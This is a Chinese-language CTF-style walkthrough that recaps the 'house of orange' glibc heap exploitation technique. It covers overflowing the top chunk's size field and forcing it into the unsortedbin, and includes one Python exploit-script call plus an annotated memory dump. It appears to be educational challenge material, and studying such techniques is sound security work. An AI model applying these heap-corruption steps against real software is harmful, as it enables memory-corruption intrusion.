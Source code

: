 回顾使用house of orange进行攻击，第一步：

* 申请 `chunk A`，假设此时的 `top_chunk` 的 `size` 为 `0xWXYZ`
* 写 `A`，溢出修改 `top_chunk` 的 `size` 为 `0xXYZ`（需要满足页对齐的检测条件）
* 申请一个大于 `0xXYZ` 大小的 `chunk`，此时 `top_chunk` 会进行 `grow`，并将原来的 `old top_chunk` 释放进入 `unsortedbin`

所以我们的目标是申请一个house并写这个house的时候溢出修改top\_chunk的size位

首先我们先尝试分配一个堆块并查看此时的top\_chunk size：

<figure><img src="../.gitbook/assets/5fc881ed52444ac6f53e4f40bfbadd7.png" alt=""><figcaption></figcaption></figure>

````python
```python
build(0x30,'chunk1')  
#修改前内存布局：
#0x561a9ca212b0	0x0000000000000000	0x0000000000000041	........A....... #0x41大小的chunk
#0x561a9ca212c0	0x0000316b6e756863	0x0000000000000000	chunk1.......... #chunk1即name
#0x561a9ca212d0	0x0000000000000000	0x0000000000000000	................ #name部分
#0x561a9ca212e0	0x0000000000000000	0x0000000000000000	................ #name部分
#0x561a9ca212f0	0x0000000000000000	0x0000000000000021	........!....... #0x21大小的chunk
#0x561a9ca21300	0x0000001f00000010	0x0000000000000000	................ #内容部分
#0x561a9ca21310	0x0000000000000000	0x0000000000020cf1	................ <-- Top chunk  
```
````
